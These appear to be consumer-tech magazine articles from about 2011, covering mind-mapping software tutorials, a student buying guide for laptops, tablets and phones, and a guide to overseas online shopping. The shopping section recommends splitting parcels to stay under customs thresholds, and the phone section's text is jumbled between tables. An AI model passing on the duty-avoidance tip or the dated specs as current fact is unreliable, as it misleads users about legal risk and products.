从http://www.xmind.net/downloads/下载XMind之后，安装运行，软件默认新建一个工作簿。双击中间的“中心主题”可编辑这四个字，将它换成自己的主题关键字，比如换成上例主题的“幸福”。直接按回车键，可自动插入分支主题，编辑方法同上，修改为需要的关键词即可。当某一分支主题为选中状态时，按Insert键，可为其添加下一级分支。以此类推即可快速完成一个思维导图的制作。

#### 实战1: 思维导图助你记忆英语单词

讲述人: 小刚
职业: 学生

上初中的时候，我最发怵的课程是英语，因为总记不住单词，在很大程度上影响了对英语学习的兴趣，成绩总是上不去。有时为了应付考试，采取背词汇书的方法一页一页接顺序往后背，往往坚持不到一周就没了信心，令人十分的沮丧。

书店里则充斥了大量的背单词的技巧书，令人眼花缭乱，其实归结起来不外乎两大类方法：一个是词根法，一个是联想法。当我学习了思维导图后，将它与这两种方法联合起来，取得了非常好的效果。不但提高了记单词的效率，而且背单词也成了一件赏心悦事。

#### 以一当十的词根法

词根是一个单词的根本部分，是一个单词的核心，表示一个单词的基本意义，它有点类似于汉字的偏旁部首，通过不同的组合可以构成多个新词。熟悉英语词根，在记忆单词的时候可以举一反三。这里以词根ag为例，看看如何在iMindMap (7天免费试用版下载：http://www.thinkbuzan.com/intl/registration/freetrial) 中为它绘制思维导图以帮助记忆。注意：不同思维导图软件的操作方法其实大同小异，以下皆以iMindMap为例（因为它绘制出的图形比较优美），你可以使用其他思维导图软件来替代，当然你也可以不用软件，直接手工绘制。

ag是一个基本词根，它和其他词缀又有不同的组合。本例，就可以分出agent, agen, agil, agit等几个变体，所以我将ag先派生出四个分支，将光标移到中心图标上，图标上显示出一个大红点，拖动红点即可自动拖出一个曲线分支，可以重复操作以拖出多个分支。双击分支线可以输入文字，文字将自动沿着分支线排列（见图7）。

启动iMindMap，依次点击File→New→Blank Document→Create（文件→新建→空白文档→创建）创建一个新文档，首先让你选择中心主题的外框，这里选择第一个图标（见图8）。


拖动图标周边的锚点，可以随意调整图标大小。双击图标中的文字，将其换成本例的词根关键字ag。

将光标移到分支的末梢，也会出现一个小红点，拖动小红点可以绘制出子分支，拖动小红点外面的蓝圈，则可以调整分支位置和长度。最终本例的效果如图8所示。单击主界面上方的保存按钮，保存文件（imx格式），此文件以后可以随时打开编辑修改。点击File→Export（文件→输出），还可以将此思维导图输出为适应各种环境的图片（如网页、PPT、PDF等）。

### 星火记忆法

英语单词速记还有一种“星火记忆法”。它是对词根记忆法的一个改造，它不是通过记词根，而是通过记忆某一个简单的熟词，再经由分解、联想等扩展出一片词汇。

比如，human是人的意思，记熟这个词之后就很容易记住humanity (人类，人性)、humane (人道的，仁慈) 这两个词，而通过humane又可以快速记住humanitarian (人道主义者) 和humanitarianism (人道主义) 这两个词。

另一方面，神话传说人是由泥土“捏”出来的，所以human又可理解为“泥人”，hum就有了“土”和“湿”的意思，从而延伸到exhume (挖掘)、inhume (埋葬)、humid (湿)、humidity (湿度) 等与土和湿相关的词汇来。

将上面的想法，用思维导图表示出来，就会更加的清晰、形象，效果如图9所示。

#### 小练习：为文章绘制思维导图

对于文章来说，同样可以通过思维导图揭示出它的结构，从而增强记忆。比如《电脑爱好者》第10期中做过的一个专题《人脉就是命脉》，我们同样可以通过思维导图将其描述出来，对我们打通人脉关系，会有很好的帮助。大家可以试试看。

#### 实战2：多彩笔记，戴上“六顶思考帽”

讲述人：志海
职业：项目经理


作为一个项目经理，如何发挥出团队所有人的最大智慧，是我的职责所在。一直以来我在寻找这样的方法，英国学者爱德华·德·波诺(Edward de Bono)博士开发的“六顶思考帽”思维工具，让我眼前一亮。

所谓六顶思考帽，是指使用六种不同颜色的帽子代表六种不同的思维模式，或者说它是一个全面思考问题的模型。它提供了“平行思维”的工具，避免将时间浪费在互相争执上。

### 六顶不同颜色的帽子只是一个比喻：

1.  白帽思维：白色是中立而客观的。白帽代表着关注事实和数据。
2.  黄帽思维：黄色是顶乐观的帽子。黄帽思维关注价值、积极因素，提出建设性的观点。
3.  黑帽思维：黑色是谨慎的颜色。黑帽思维具有警示、风险、批判或质疑等特点，它具有发现事物消极因素的功能。
4.  红帽思维：红色是情感的色彩。感觉、直觉和预感属于红帽思维。
5.  绿帽思维：绿色是春天的色彩。绿帽思维具有创意、能量、成长的特点。绿色思考帽是创造力之帽，它具有创造性思考、头脑风暴、求异思维等功能。
6.  蓝帽思维：蓝色是天空的颜色。蓝帽思维思考“思考”本身，它负责控制各种思考帽的使用顺序，它规划和管理整个思考过程。

写文章时需要先列好提纲，编程之前需要先设计整个程序的模块流程，思维同样是这个道理。六顶思考帽的应用关键，就在于怎么排列帽子的顺序，其实就是组织思考的流程。下面是六顶思考帽应用流程的一个示例：

1.  陈述问题（白帽）；
2.  提出解决问题的方案（绿帽）；
3.  评估该方案的优点（黄帽）；
4.  列举该方案的缺点（黑帽）；
5.  对该方案进行直觉判断（红帽）；
6.  总结陈述，做出决策（蓝帽）。

思维导图应用的领域非常广泛，上述只是沧海一粟，比如自我分析问题、记日记、学习、教学、会议、演讲报告等等，思维导图都可以助你一臂之力。好吧，就让我们一起踏入这个多彩的思维世界吧。

策划/《电脑爱好者》编辑部
监制/柳絮飞
撰稿/流言


## 开学啦！你的数码“三大件”准备好了吗？

70年代的手表、自行车、缝纫机；80年代的冰箱、彩电、洗衣机；90年代的空调、电脑、录像机；再到今天的房子、车子、票子，每个时代都有属于自己的“三大件”，随着时代的变迁依旧被人们所津津乐道。对于今天的学生朋友来说，同样需要“三大件”来丰富我们的学习生活。而手机、平板、笔记本，无疑是当今学校中最热的三大数码装备。马上就要开学了，你的数码装备都准备好了吗？

对很多同学来说，校园生活总是枯燥乏味的，因此急需科技玩物来丰富课余生活。“三大件”中的笔记本绝对是学习、娱乐的总枢纽，宿舍里、自习室总能看到它的影子；在不方便携带笔记本的地方，平板电脑就有用武之地了，依托于超大的屏幕，看电影、玩休闲游戏都是一把好手；至于手机更不用多说，没了它寸步难行。但是，手机、平板、笔记本每条产品线都有无数产品可选，对口袋并不宽裕的我们来说，如何才能锁定最划算、最适合自己的数码装备呢？本文就将为大家提供三大件的基本选购思路，希望可以帮你在开学前挑选出最心仪的产品。

### 三大件之 笔记本篇

今天的笔记本已经具备了挑战台式机的性能，再加上小巧便携的特性，已经成为了无数学生朋友的首选。但对笔记本而言，既有屏幕尺寸上的差别，又有硬件平台的不同，如何挑选还得看咱们自身的需求。目前笔记本大致可以分为四大类：上网本、超轻薄笔记本、轻薄笔记本和普通笔记本，它们之间的差别请见表1。

表1：笔记本基本可以分为四大类

| 分类 | 屏幕尺寸 | 典型配置 | 性能等级 | 价格区间 |
|---|---|---|---|---|
| 上网本 | 10.1英寸 | AMD C50/Intel Atom + 集显 | ★☆ | 1699元起 |
| 超轻薄笔记本 | 11.6英寸 | AMD E350/Intel ULV + 集显 | ★★☆ | 2499元起 |
| 轻薄笔记本 | 12.1-13.3英寸 | SNB + 集显/入门独显 | ★★★☆ | 3499元起 |
| 普通笔记本 | 14英寸以上 | SNB + 集显/中高端独显 | ★★★★☆ | 3499元起 |

小提示：
SNB为英特尔Sandy Bridge处理器的缩写，轻薄笔记本中也有采用AMD E350或Intel Atom/ULV处理器的产品，11.6英寸中也有万元级别的高端产品。但这些都属于“非主流”的产品，不在本文的讨论范围之内。

如果你家里已经有了性能更强的台式机或笔记本，在学校中笔记本也仅用于上网和看视频，对游戏不感冒，上网本和超轻薄笔记本的性能就足以满足你的需求了，而且1.5kg以内的重量，贴身携带也不会成为累赘；如果你偶尔会玩《穿越火线》、《Dota》一类的游戏，又不喜欢笨重的产品，12.1~13.3英寸的轻薄笔记本也是不错的选择；如果你经常和同学一起玩大型3D网游，或和几个宿舍的宿友经常挤在一起看电影，那么拥有大尺寸屏幕和高端显卡的普通笔记本才最合适。综合来看，14英寸以上，具备较强娱乐性能的笔记本才是最大众化的选择。接下来，咱们就来学习如何挑选这类笔记本。

#### 不要盲目追求低价格

虽然现在不乏2XXX元的产品，但如果你仔细观察过它们的配置，要么采用了Intel Atom或AMD E350这类低功耗的硬件平台，要么就是采用3500（集成GMA X4500显卡）或P6200（集成GMA HD显卡）这类奔腾双核的机器，除了性能不够给力以外，这种低价笔记本所用的模具也普遍一般，很少有看着就上档次的那种。就当前笔记本市场的规格而言，3500元算是一道分水岭，以下的产品大都存在性能或功能上的缺失，而以上的产品均已经具备了足够强的性能。

#### 优先选择最新技术平台

如今英特尔SNB平台已经普及，3500元左右就能买到搭载酷睿i5-2410M处理器的笔记本，其集成的核芯显卡也足够玩《魔兽世界》和《星际争霸2》一类的游戏了，看1080P高清视频也毫无压力。如果你对性能的要求更高，笔者建议大家选择搭配NVIDIA GT525M或AMD HD6600M级别独立显卡的笔记本，它们与更高端的GT550M和HD6700M系列独显的差别仅在核心频率与显存频率上，适当超频就能获得高端显卡的性能。目前SNB与这类独显搭配的笔记本价格大都在4000元~6000元之间，可供选择的范围很广，这个级别的产品足够在较高画质下流畅运行《使命召唤7》《极品飞车15》这类大型3D游戏了。此外，当你拿到本期杂志时，基于AMD Llano系列APU设计的笔记本应该也大量上市了。就性能而言四核芯的A6-3400M和酷睿i3-2310M在一个档次，而更高阶的A8-3500M则有挑战酷睿i5-2410M的实力。

**火速链接：**
都是酷睿i3-2310M和GT540M独显的组合，为什么有的产品卖3999元，有的却卖5999元，不同品牌不同型号的产品到底差别在哪里？如果你也有类似的疑问，请参考本期笔记本与整机栏目中的《雾里探花 什么样的笔记本最适合你》这篇文章。

#### 选机验机有门道

如果你对笔记本不是很了解，笔者建议大家先到中关村或当地IT卖场试机，亲身体验一下笔记本的实物，再在京东商城或苏宁易购等B2C网络商城购买，这类网上商城不存在价格欺诈，而且还支持以旧换新政策。如果你坚持想在海龙、鼎好、百脑汇、宏图三胞等电子卖场购买，一定要在一层的品牌专卖店处购买，不要轻信围在你身边黑导购的“我们那里更便宜”一类的话语。此外，如果销售人员让你到XX层公司本部去看机器，没有懂行的朋友陪同也不要上去（出现问题你会孤立无援的），坚持就在专卖店里完成选机、验机、交易的全过程。

**小提示：简易验机步骤不可少**
大家可以提前下载“鲁大师”（下载地址：http://www.ludashi.com/）并拷贝到随身的U盘中，付款前利用这款软件对笔记本进行一下体检。在“硬件检测→硬盘信息”中可以查看硬盘的使用次数和通电时间，由此可以判断该机是否是全新产品，在“性能测试”菜单中还能对屏幕进行坏点的检测，只要笔记本为全新机，屏幕没有亮点坏点，基本上就不会出什么大问题了。

### 三大件之 平板电脑篇

大块头的笔记本性能虽然强大，但却不便于隐藏和随身携带，无法实现随时随地娱乐的体验。如果你想在课桌前看电子版漫画、公车上玩游戏、躺在宿舍的床上看电影，同样拥有大尺寸屏幕，但身材却更较小的平板电脑一定可以满足你的个性化需求。但是，平板市场的混乱程度不亚于笔记本，从几百元到数千元的产品都有，那么不同价位的产品之间又有什么差别呢？

#### 平板中的“四大门派”

别被市场上海量品牌平板电脑的声势吓到，其实众多品牌和产品之间还是有规律可循的。简单来说，这些平板电脑都隶属于“四大门派”（见表1），我们要根据自己的预算和喜好，决定最终加入到哪个门派的阵营。

表1：平板电脑基本可以分为此表中的四大类别

| 平板四大门派 | 代表方案 | 操作系统 | 性能等级 | 屏幕尺寸 | 价格范围 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 苹果派 | Apple A4/双核A5 | iOS | ★★★★★ | 9.7英寸 | 2888元~6999元 |
| 高端派 | NVIDIA Tegra 2 | Android 3.x | ★★★★☆ | 7英寸~10.1英寸 | 2999元~4999元 |
| 主流派 | RK2918/AML8726M/S5PV210/TCC8803 | Android 2.x | ★★★☆☆ | 5英寸~10.1英寸 | 899元~1999元 |
| 入门派 | RK2818/TCC89系列方案 | Android 2.x | ★★☆☆☆ | 4.3英寸~8英寸 | 399元~899元 |

四大门派中，“苹果派”实力最强，在操作体验和游戏数量上居于各门派之首；“高端派”凭借双核A9处理器与谷歌针对平板量身定制的Android 3.x系统，硬实力（硬件规格）不逊于iPad 2，但在软实力（游戏数量）就逊色一筹了；“入门派”仅采用了ARM9/11架构的方案，勉强可玩《愤怒的小鸟》这类2D游戏，但3D游戏就别指望它了，Android系统体验较差；相对而言，“主流派”的平板全部采用了Cortex-A8或单核Cortex-A9架构的方案，已经可以流畅体验Android系统，玩绝大多数3D游戏，在高清视频播放方面的表现更是无可挑剔。此外，“主流派”的平板大都还配备HDMI输出接口，可接驳电视或大尺寸显示器，充当高清播放盒的角色，并支持OTG功能读取U盘等外设，在扩展功能上的表现更突出。因此，本文讨论的重点也就以“主流派”的产品为主。

#### “主流派”也分四大阵营

“主流派”覆盖了899元~1999元价位区间，粗略地数一数也要有百十款机型。别着急，在选择这类平板产品时不妨信仰“唯芯主义”，即根据产品采用了哪种主控芯片来挑选心仪的产品（见表2）。一般说来，采用相同方案的不同产品，在性能和软件兼容性方面的表现是相同的，不同之处主要在产品的外观设计、屏幕显示效果以及厂商对系统的优化（主要为界面优化）。因此，选择“主流派”平板时应首先确定主控芯片，再从采用这类主控芯片的产品中挑选有“眼缘”的机器。

表2：千元级平板电脑常见的主控芯片对比

| 厂商 | 主控型号 | 制程工艺 | CPU主频 | 内存类型 | CPU架构 | 二级缓存 | GPU型号 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 三星 | S5PV210 | 45nm | 1.0GHz | DDR2 | A8 | 512KB | SGX540 |
| 瑞芯微 | RK2918 | 55nm | 1.2GHz | DDR3 | A8 | 512KB | GC800 |
| 晶晨 | AML8726M | 65nm | 800MHz | DDR2 | A9单核 | 128KB | Mali400 |
| Telechips | TCC8803 | 45nm | 1.2GHz | DDR3 | A8 | 256KB | Mali200 |

上述四种主控芯片在系统的操作体验上都能达到流畅的级别，而差别则主要体现在游戏性能以及对高清视频播放的支持上。其中三星S5PV210内建的PowerVR SGX540这颗GPU拥有最强的图形性能与兼容性，但在高清播放的能力上就显得不太给力了，仅能勉强流畅播放720P的视频，1080P则会卡顿得一塌糊涂；Telechips TCC8803的优势在于视频播放，在视频格式的兼容性和流畅度方面的表现很好，可惜对3D游戏的兼容性表现一般；瑞芯微RK2918与晶晨AML8726M的表现算是半斤八两，拥有仅次于PowerVR SGX540的GPU，借助第三方播放软件也可通吃常见的1080P视频。在游戏兼容性方面，瑞芯微RK2918略好于AML8726M，而且RK2918刚刚量产，未来还有很大的优化和发展空间。

**小提示：兼容性产生原因**
很多大型3D游戏都有独立的数据包文件，纹理压缩格式即这些数据包的封装格式。其中ETC1为Android通用的免费压缩格式，但可用的数据包并不多；PowerVR SGX系列的专用纹理压缩格式是PVRTC，而高通Adreno系列专用的是ATITC，NVIDIA专用的为DXTC，这三种格式都是付费授权的。各自的压缩比例与算法各有不同，所以难以跨平台使用。

总之，如果你喜欢用平板电脑玩游戏，看720P以内的视频，追求稳定和性能，推荐采用三星S5PV210主控芯片的平板电脑。如果你对游戏不太感冒，比较看重性价比，选择Telechips TCC8803主控芯片的产品就足够了。至于瑞芯微RK2918和晶晨AML8726M，AML8726M适合不想折腾的同学，此方案上市较早，已经优化得很稳定了。RK2918在制造工艺和二级缓存上都要优于AML8726M，未来的发展无可限量，但现阶段还存在些许Bug，如果你现在选择了RK2918方案的产品，一定要留意厂商日后的固件升级信息，通过升级的形式才能获得更稳定、更强大的表现。总之，笔者建议大家挑选瑞芯微RK2918（最优）与晶晨AML8726M（其次）方案的产品，3D性能够强，视频播放能力强大，各方面表现最为均衡。

此外，选择“主流派”平板电脑还应关注屏幕方面的规格（见图3），目前此派别的产品大都采用了16:9显示比例的800×480像素或4:3显示比例的800×600像素的屏幕，价位稍高的产品还会选择高清的1024×768（4:3）、1024×600甚至1280×768像素的屏幕。此外，建议大家一定要选择采用电容式触控技术的产品，至少要支持两点触控，电阻式触控屏会严重破坏Android系统的使用体验！

### 三大件之 智能手机篇

你出门可以不带笔记本，不带平板电脑，但手机绝对是必须的。作为“三大件”最重要的组成部分，手机的选购重点在于系统，以及驾驭系统的硬件平台。在什么都讲究“智能化”的今天，iOS、symbian和Android无疑是用于武装我们手机的最佳系统。那么，这三大系统中谁更适合你呢？

**小提示：**
微软的Windows Phone 7改进了界面UI，使用体验并不逊于前面介绍的几大系统。可惜WP7还未发布正式版的中文系统，国内可以买到的也都是国外的水货产品，因此在本文中就不多做介绍了。

#### iOS：iPhone独占的盛宴

苹果iPhone虽然贵，但却最趋近完美；做工没得挑，屏幕表现没得比，系统体验的流畅度更是首屈一指。最关键的是，选择iPhone后，你不必知道它具体的硬件规格，至少在一年内无需担心硬件过时（苹果每年才会升级一次硬件）。而且也不必考虑软件、游戏的兼容性问题，“越狱”后无数的游戏和软件等你安装，拿来即玩。别看iPhone4已经上市一年多了，但即便是刚刚上市双核Android手机，系统流畅度和游戏的运行速度也很难超越iPhone4，而且iOS系统中还有很多“独占”的游戏大作，绝大多数跨平台的游戏都是先出现在iOS上，然后才移植到Android和塞班系统，这些都是其它系统手机所不具备的优势。

不过现在选择主流的iPhone4似乎有些不合时宜，因为9月份苹果就将发布iPhone5（还可能有廉价版iPhone），届时iPhone4也可能也会出现去年iPhone 3GS一夜降千元的促销。因此，如果想加入“果粉”阵营，建议再稍等一段时间，待新一代iPhone上市后，根据预算选择更先进的iPhone5或是更廉价的iPhone4。

**一句话点评：iPhone适合一步到位，追求完美，预算宽裕的同学**

#### symbian：诺基亚独守的阵线

受其它智能系统的冲击，昔日辉煌的塞班阵营已经土崩瓦解，如今只剩下诺基亚独撑门面。还好诺基亚已经“开窍”了，硬件上即将为新品准备1GHz处理器，在规格上向Android高端智能手机看齐；软件上也为Symbian 3系统的老产品准备升级到代号为的“Anna”系统，而“Anna”之后还有“Belle”，届时诺基| 智能系统对比 | iOS | Android | Symbian |
| :--- | :--- | :--- | :--- |
| 代表厂商 | 苹果 | HTC, 摩托罗拉, 三星, 索爱等 | 诺基亚 |
| 易用性 | ★★★★★ | ★★★★☆ | ★★★☆ |
| 软件数量 | ★★★★★ | ★★★★☆ | ★★★☆ |
| 游戏数量 | ★★★★★ | ★★★★☆ | ★★★★ |
| 游戏兼容性 | ★★★★★ | ★★★☆ | ★★★★☆ |
| 游戏画面质量 | ★★★★★ | ★★★★☆ | ★★★☆ |

手机卖场逛逛，除了诺基亚和苹果以外，其它品牌大都已经被Android系统所征服。Android系统虽然具备出众的易用性，软件和游戏数量方面也仅是稍逊于iOS，但由于参与竞争的厂商太多，面对琳琅满目的产品，我们在采购Android系统手机时也将面临更多的问题。

## 要速度 硬件搭配得合理

Android系统对硬件的要求很高，简单来说：想获得和iPhone 3G一般流畅的体验，至少需要600MHz的CPU与256MB内存(RAM)的组合；想拥有iPhone 3GS一般的速度，就需要配备800MHz以上的CPU与512MB内存的组合；想不输给iPhone 4，除了要求CPU的主频达到1GHz以外，还需集成Adreno 205或PowerVR SGX540级别的GPU（显卡）。目前Android手机常用的CPU主要以高通、德州仪器(TI)、三星以及NVIDIA为主，以下是常见CPU参数列表，如果Android手机采用的是表外的CPU，就很难保证系统的流畅度了。

| 诺基亚推荐 | 诺基亚5250 | 诺基亚C5 | 诺基亚C6 | 诺基亚C7 |
| :--- | :--- | :--- | :--- | :--- |
| 屏幕 | 2.8英寸电阻屏 | 3.2英寸电阻屏 | 3.2英寸电容屏 | 3.5英寸电容屏 |
| 处理器 | 434MHz (ARM11) | 600MHz (ARM11) | 680MHz (ARM11) | 680MHz (ARM11) |
| 内存(RAM) | 128MB | 128MB | 256MB | 256MB |
| 存储(ROM) | 256MB | 256MB | 1GB | 8GB |
| 摄像头 | 200万像素 | 500万像素 | 800万像素 | 800万像素 |
| 价格(行/水) | 899元 | 1399元/1299元 | 1999元/1599元 | 2499元/1999元 |
| 特色 | 超便宜 | 配置够用 | N97的替代品 | 媲美高端N8 |

## 小提示：

主频并不是衡量某款CPU的决定性参数，比如高通800MHz的MSM7230性能要比1GHz的QSD8250还要强，这是因为前者内置了性能更强的Adreno 205显卡。此外，很多低端Android手机只有512MB ROM（内置存储），这就好比电脑的硬盘。其中Android系统本身会占据300MB左右，留给用户用于安装程序的空间就只剩下200MB左右了。还好，Android系统在2.2版后加入了App2SD功能，允许把部分程序安装在存储卡上，一定程度上减轻了ROM的压力。而容量巨大的游戏，也会以安装程序（安装在手机ROM上）和数据包（保存在存储卡中）的形式运行在Android手机中。

| 单核CPU | 主频 | GPU | 架构 | 代表机型 | 性能 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 高通MSM7227 | 600MHz | Adreno 200 | ARM11 | HTC Legend (G6) | 5 |
| TI OMAP3430 | 600MHz | PowerVR SGX530 | Cortex A8 | 摩托XT702 (里程碑) | 5.5 |
| TI OMAP3610 | 800MHz | PowerVR SGX530 | Cortex A8 | 摩托Defy (ME525) | 6 |
| 高通QSD8250 | 1GHz | Adreno 200 | Cortex A8 | HTC Desire (G7) | 6 |
| 高通MSM7230 | 800MHz | Adreno 205 | Cortex A8 | 华为U8800 | 6 |
| TI OMAP3630 | 1GHz | PowerVR SGX530 | Cortex A8 | 摩托ME722 (里程碑2) | 6.5 |
| 高通MSM8255 | 1GHz | Adreno 205 | Cortex A8 | HTC Desire HD (G10) | 7 |
| Apple A4 | 1GHz | PowerVR SGX535 | Cortex A8 | 苹果iPhone4 | 7 |
| 三星S5PC110 | 1GHz | PowerVR SGX540 | Cortex A8 | 三星i9000 | 7 |

## 兼容性 Android的痛

Android不比iOS和塞班，软硬件平台的差异性极大，这就造成了软件（主要以3D游戏为主）的兼容性问题。以Gameloft出品的高清3D游戏为例，往往会推出高通优化版、三星优化版、德州仪器优化版等适应不同硬件平台的版本，跨平台安装则会出现游戏花屏或无法运行的问题。相对来说，PowerVR SGX系列GPU兼容性最出色，因为苹果iPhone用的也是这种GPU，开发者移植起来最容易。此外，Android系统本身也会定期发布更新的版本，但并不是所有厂商都有精力为老产品升级。

| 双核CPU | 主频 | GPU | 架构 | 特点 |
| :--- | :--- | :--- | :--- | :--- |
| NVIDIA Tegra 2 | 1GHz | GeForce GPU | Cortex A9 | 游戏性能出众，有专属定制游戏 |
| 三星Exynos 4210 | 1.2GHz | Mali 400MP | Cortex A9 | 主频高，能播放1080P视频 |
| 高通MSM8260 | 1.2GHz | Adreno 220 | Cortex A8 | 主频高，游戏性能很出色 |
| TI OMAP4430 | 1GHz | PowerVR SGX540 | Cortex A9 | 性能强，游戏兼容性最佳 |

## 最好玩的“大众”系统

虽然Android存在些许兼容性的问题，但它依旧是最值得选择的手机系统。一方面是因为Android手机众多，可供我们挑选的余地很大，不少运营商已经推出了千元内的3G定制机型，选择套餐的形式成本会更低；另一方面，Android系统的可玩性很出色，资源丰富，在安卓、机锋等论坛可以下载到针对不同硬件平台优化的游戏，间接解决了兼容性缺陷。总之，如果你想购买一部Android手机，即使预算再紧张，笔者也建议按照上表的最低配置要求挑选。

| 参数 | 最低配置 | 建议配置 |
| :--- | :--- | :--- |
| 屏幕 | 3.2英寸以上电容屏, 800×480像素 | 3.5英寸以上，AMOLED或SLCD材质 |
| 处理器 | 最低也要达到高通MSM7227级别 | 800MHz以上的Cortex A8处理器 |
| RAM (内存) | 512MB | 768MB或者1GB |
| ROM (存储) | 512MB | 1GB以上 |
| 系统 | Android 2.2 | 可以提供后续升级的热门产品 |

诺基亚手机也将迎来“刷机狂潮”。但无论是“Anna”还是最新曝光的“Belle”，从体验的角度来说仍然缺乏革命性的转变，充其量不过是细节上的优化，诺基亚如果不从底层对塞班系统进行革新，而只是针对细节缝缝补补，其效果只能是延缓塞班的寿命，始终难以超越iOS和Android。塞班系统是值得肯定的。但是，塞班系统在游戏的更新速度上往往比iOS和Android慢半拍，而且Symbian^3手机屏幕分辨率也仅为360×640像素，因此3D游戏画面的质量也会相应缩水。

一句话点评：塞班手机相对最易上手（对老用户），从几百元到数千元选择余地大，适合注重性价比的同学。

诺基亚的优势在于使用习惯，即便塞班在系统层的体验上已经落后，但对于没有体验过iOS和Android系统的用户来说，诺基亚手机就是最容易上手的保证。如果你之前用的是N95，当N8摆在你面前时，只需简单适应你就能流畅操作了，哪怕操作介质从按键换成了屏幕。此外，Symbian^3可以运行S60 V5系统软件资源，在兼容性方面塞班系统的表现也是值得肯定的。

## Android: 众人拾柴火焰高

Android免费开源的特性，吸引了无数厂家为之折腰，历经多个版本的磨合期后，现在的Android 2.x系统已经成为iOS最有力的挑战者，不仅可以提供不逊于iOS的流畅度，在桌面插件、特色功能等细节方面甚至比iOS更具前瞻性。如果你到中复、迪信通等手机卖场逛逛，除了诺基亚和苹果以外，其它品牌大都已经被Android系统所征服。

一句话点评：拥有最丰富产品的系统，只要硬件够强，可以提供不逊于iPhone的流畅体验。

策划/《电脑爱好者》编辑部
监制/王健
撰稿/王健 hiker 我心飞翔

## 足不出户 淘遍全世界

喜欢在网上淘宝的朋友们能深刻体会到网购的经济实惠，近两年兴起的海外网购，甚至已经成为海淘族的一种生活方式。足不出户，就能淘遍全世界！不仅产品质量有保证，还能省下不少银子。不过不是自家地盘，跨洋血拼时难免晕头转向。要真正在网上买到称心如意的海外的商品，很多细节是不可忽视的。今天，就让我们一起来网罗海淘的方方面面，让网购来得更加无疆界吧！

## 为什么要海外网购？

话说本人也是知道海外网购这个好事不久，但已败了不少东西，心痛之余才发现原来自己是在省钱。有人说海外网购就是不爱国，No！爱国也得先爱自己，特别是爱自己的钱包，这年头省钱才是王道，特别是省钱之余还能买到品质过硬、种类更丰富的产品，此外，还能增长见识、丰富阅历、提高生活档次，何乐而不为？

### 1. 品质保证

在中国，如果卖假货会被罚款。在美国，如果卖假货会被判刑、坐牢。看出区别了吧？所以在海外正规网站购物，几乎不会有什么假货，只要关注下新旧程度和保质期就可以。光这个品质保证，就算价格高些，也值得我们去购买。DIY海外购物的感觉很好，无需再担心在国内购物网站上买到假货，国外商品直接发到我们手上，还可全程跟踪，特别是母婴用品和化妆品类的，买的就放心！

### 2. 价格实惠

在品质保证的前提下，如果价格又实惠，那是再美妙不过了。选择海外淘的“朋友们”们，很大原因也是在于价格实惠，比如保健品、化妆品、名牌衣服鞋子包包、电子产品等。

众所周知，美国很多品牌的Online Shop经常会有让人咋舌的低折扣，比如Diesel、CK、Tommy、Ralph Lauren等品牌，在国内专柜都是500元起步，1000-2000元的价格甚是平常，可当你点开美国官网时，会发现30%~50% off的Sale是常年进行时，更不要说像梅西百货这样的百货网站了，200~300元人民币就可以买到国内专柜800~1000元的商品，即使加上关税、运费，也不足500元，而且经常会碰到打折等优惠活动，那就省得就更多了。

很多朋友以前从未接触过海淘，可能觉得海淘的过程很复杂，其实并不难。Let's go！

## 序篇 海淘前的准备

**关键词：双币信用卡 Paypal 转运公司**

- 1. 因为海外网站大都是英文的，支持全中文版本的网站不多，有一定英语基础最好，如果外语不好也不要紧，可以用Google的在线翻译，虽然不是很精确，但看懂还是没问题的，网址为http://www.google.cn/language_tools。
- 2. 国外网站常见的支付手段就是信用卡，收费货币以美元为主（只有少数网站支持人民币单币信用卡，这样的网站会有“银联”的标志“UNIONPAY”），所以一定要有一张双币信用卡待命。双币信用卡是指有人民币和某种外汇两种金融账户的金融卡，国内很多银行都推出了双币信用卡（人民币+美元），所以要先去银行办一张双币信用卡。

**小贴士：**
海外网站很多只需要填写正确的信用卡信息就可以支付了，不需要密码。在方便的同时也挺可怕的。解决方案一是开通支付的短信通知功能，这样刷卡信息可及时知道，一旦盗刷可及时通知银行。二是把信用卡的支付额度调到最低，支付的时候再调高。另一个就是通过Paypal支付。

- 3. 有的国外网站并不接受中国的信用卡，但大多数网站都接受Paypal付款。Paypal是一家美国网上银行，类似于中国的支付宝，因此最好注册一个Paypal账户，网址为http://www.paypal.com，注册时需要提供E-mail和信用卡信息。

用Paypal付款比较安全，由于用户的信用卡信息只留在Paypal，商家看不到信用卡信息，并且，如果在返利网站有了返利，可以申请返利到Paypal账户，里面的钱可以方便提现或用来日后购物。

**小贴士：**
一定要注册Paypal全球账户，而不是中国的“贝宝”。如果网页上显示有“贝宝”两个汉字，就是中国的贝宝。以前在中国贝宝注册过的E-mail地址，就不能在Paypal里注册了，否则即使注册成功，登录后也会自动跳转到中国贝宝的页面。

Paypal注册中文指南 http://www.paypal-china.com/signup.htm

- 4. 注册一个华人快递转运网站的账户。因为很多国外网站不支持直运到中国的服务，就算支持，直送的运费也非常昂贵，并且负责直运的洋快递一般是DHL、UPS或FEDEX、TNT，都是按商品报关的，几乎100%被征收关税。对于“用最少的钱来买最好的东西”这个想法而进行海淘的我们来说，显然是不划算的，因此价廉物美并且能够合理避税的华人快递就成为我们海外购物的首选！

**小贴士：**
由于从2010年9月以后，海关对个人物品邮寄的收税标准提高，目前每单上限价值最好不要超过1000元人民币，服装每个包装箱最好不要超过5磅，化妆品每个包装箱不要超过2磅，否则会有退运风险。如果订单货物比较多，可以通过分箱服务来拆分包裹，以达到合理避税的目的。

转运公司的作用就是提供国外收货地址，代收货并将货物发回到国内的收货地址。代收货转运公司本身就是国际快递，所以他们收到货后会直接转运回来（现在国内做美国代购生意的代购公司、淘宝代购网店，以及个人海外直购买家基本上都使用这样的方式操作）。这里推荐一个常用的美国华人转运公司——斑马物联网。

斑马物联网是美国第一大华人快递，可提供全球多达11个国家的海外地址，其中部分还是免税地址。每位注册客户都将拥有自己专属的海外收货地址，在海外购物网站结账时，可以将此地址填写到海外网站订单的收货人一栏。斑马物联网收到包裹后第一时间即会进行转运。用户还可以在多家购物网站同时购买自己心仪的产品，等货物全部到达斑马物联网海外仓后整合发货，大大节约运费。目前斑马物联网新用户注册即送50元积分，可以抵扣50元首次运费。需要注意的是注册会员需要提供一定的保证金。

也有其他小公司在做代收货转运，大家也可以到网上搜索下，做个对比，选择最适合的合作。

